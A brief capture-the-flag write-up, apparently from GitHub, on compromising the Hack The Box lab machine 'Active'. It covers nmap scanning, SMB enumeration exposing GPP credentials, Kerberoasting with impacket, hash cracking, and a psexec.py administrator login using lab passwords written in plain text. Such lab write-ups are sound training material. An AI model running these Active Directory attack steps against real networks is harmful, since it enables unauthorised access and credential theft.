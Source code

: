 Active without metasploit:

![Active](https://user-images.githubusercontent.com/55708909/91635434-23431380-ea16-11ea-9260-80fdb6f88210.png)

Starting with nmap scan:

Nmap -sC -sV -T4 -A -O -oA Active -p- 10.10.10.100

![Active_nmap](https://user-images.githubusercontent.com/55708909/91635498-9b113e00-ea16-11ea-9204-dc545920bc13.png)

Let's start with smb 

![Active_smb_1](https://user-images.githubusercontent.com/55708909/91635755-b8470c00-ea18-11ea-9f02-10b7b5c8d8df.png)

![Active_smb_2](https://user-images.githubusercontent.com/55708909/91635761-bf6e1a00-ea18-11ea-9d66-4f720c44fa1c.png)

Grab the username and password for it 

active.htb\SVC_TGS : GPPstillStandingStrong2k18

Now login through smb and Grab user.txt

![Active_user_txt](https://user-images.githubusercontent.com/55708909/91635872-9c903580-ea19-11ea-9a3a-e00e9c3c9e0e.png)

Now since we do have kerberos i am going to use impacket:getusersSPN.PY and grab the hashes and use that to have password for psexec.py

![Active_hashes](https://user-images.githubusercontent.com/55708909/91635985-9484c580-ea1a-11ea-92da-70e7419d7420.png)

Use hashcat or john the ripper and we have password: Ticketmaster1968

Now use psexec.py 

python psexec.py administrator:Ticketmaster1968@10.10.10.100

And Now have desirable access.

![Active_root](https://user-images.githubusercontent.com/55708909/91636044-373d4400-ea1b-11ea-9853-3625d0026720.png)

